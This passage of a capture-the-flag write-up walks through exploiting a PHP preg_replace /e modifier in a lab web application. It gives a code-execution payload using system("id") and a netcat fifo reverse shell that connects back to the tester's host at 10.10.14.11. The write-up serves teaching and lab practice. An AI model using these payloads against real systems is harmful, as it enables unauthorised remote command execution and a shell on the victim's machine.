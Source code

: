 ```
pattern=%2Fip_address%2F&ipaddress=1.2.3.4&text=%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++++++++++++++++%22local-address%22%3A+%7B%0D%0A++++++++++++++++++++++++%2210.10.10.1%22%3A+%22%27%27%22%0D%0A++++++++++++++++%7D%2C%0D%0A++++++++++++++++%22local-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22mode%22%3A+%22site-to-site%22%2C%0D%0A++++++++++++++++%22openvpn-option%22%3A+%5B%0D%0A++++++++++++++++++++++++%22--comp-lzo%22%2C%0D%0A++++++++++++++++++++++++%22--float%22%2C%0D%0A++++++++++++++++++++++++%22--ping+10%22%2C%0D%0A++++++++++++++++++++++++%22--ping-restart+20%22%2C%0D%0A++++++++++++++++++++++++%22--ping-timer-rem%22%2C%0D%0A++++++++++++++++++++++++%22--persist-tun%22%2C%0D%0A++++++++++++++++++++++++%22--persist-key%22%2C%0D%0A++++++++++++++++++++++++%22--user+nobody%22%2C%0D%0A++++++++++++++++++++++++%22--group+nogroup%22%0D%0A++++++++++++++++%5D%2C%0D%0A++++++++++++++++%22remote-address%22%3A+%22ip_address%22%2C%0D%0A++++++++++++++++%22remote-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22shared-secret-key-file%22%3A+%22%2Fconfig%2Fauth%2Fsecret%22%0D%0A++++++++%7D%2C%0D%0A++++++++%22protocols%22%3A+%7B%0D%0A++++++++++++++++%22static%22%3A+%7B%0D%0A++++++++++++++++++++++++%22interface-route%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++%22ip_address%2F24%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++%22next-hop-interface%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++++++++++%22vtun0%22%3A+%22%27%27%22%0D%0A++++++++++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++%7D%0D%0A++++++++++++++++%7D%0D%0A++++++++%7D%0D%0A%7D%0D%0A++++++++++++++++++++++++++++++++

```

It takes three parameters, `pattern`, `ipaddress`, and `text`. `pattern` has the value `/ip_address/`, which looks like a regex.

#### preg\_replace

The PHP function to do a regex replace is `preg_replace`. [This function](https://www.php.net/manual/en/function.preg-replace.php) takes a pattern of the form `/[regex]/[optional modifier]`, which matches what I’m seeing in the request above. The dangerous part is the [modifiers](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php), specifically `/e` or `PREG_REPLACE_EVAL`, which allows for the replacement to be evaled (executed) by PHP before it is replaced.

I’ll send this request over to Repeater, and modify it to `pattern=%2Fx%2Fe&ipaddress=system("id")&text=x`. This will likely call `preg_replace(/x/e, system("id"), x)`, which will return the output of the `id` command. On sending, the results are at the top of the page:

![image-20210122083136220](https://0xdfimages.gitlab.io/img/image-20210122083136220.png)

The command output is also captured in place where the output is:

![image-20210122083213463](https://0xdfimages.gitlab.io/img/image-20210122083213463.png)

`system` puts the output out immediately on running, but `preg_replace` is smart enough to capture that and make the substitution later anyway.

### Shell

To turn this into a shell, I just need to pass in a reverse shell into the execution. The first few I tried connected back and then just died immediately. But the netcat fifo reverse shell worked great:

```

pattern=%2Fx%2Fe&ipaddress=system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+443+>/tmp/f")%3b&text=x

```
